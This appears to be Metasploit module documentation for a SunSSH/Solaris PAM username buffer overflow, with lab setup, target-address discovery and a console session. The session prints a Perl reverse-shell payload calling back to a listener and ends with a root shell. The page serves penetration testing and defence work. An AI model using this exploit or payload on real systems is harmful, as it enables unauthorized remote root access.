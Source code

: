 ## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
keyboard-interactive authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://www.oracle.com/solaris/solaris10/downloads/solaris10-get-jsp-downloads.html)
in VMware or VirtualBox. SunSSH should already be installed and running
when you start the system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set target 1
target => 1
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(solaris/ssh/pam_username_bof) > set rport 2222
rport => 2222
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.123.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 127.0.0.1:2222        - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 127.0.0.1:2222        - Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable. SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox is a compatible target.
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox
[*] Yeeting cmd/unix/reverse_perl at 127.0.0.1:2222
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:57474) at 2020-12-07 01:31:34 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS vagrant-solaris10.dev 5.10 Generic_147148-26 i86pc i386 i86pc
```
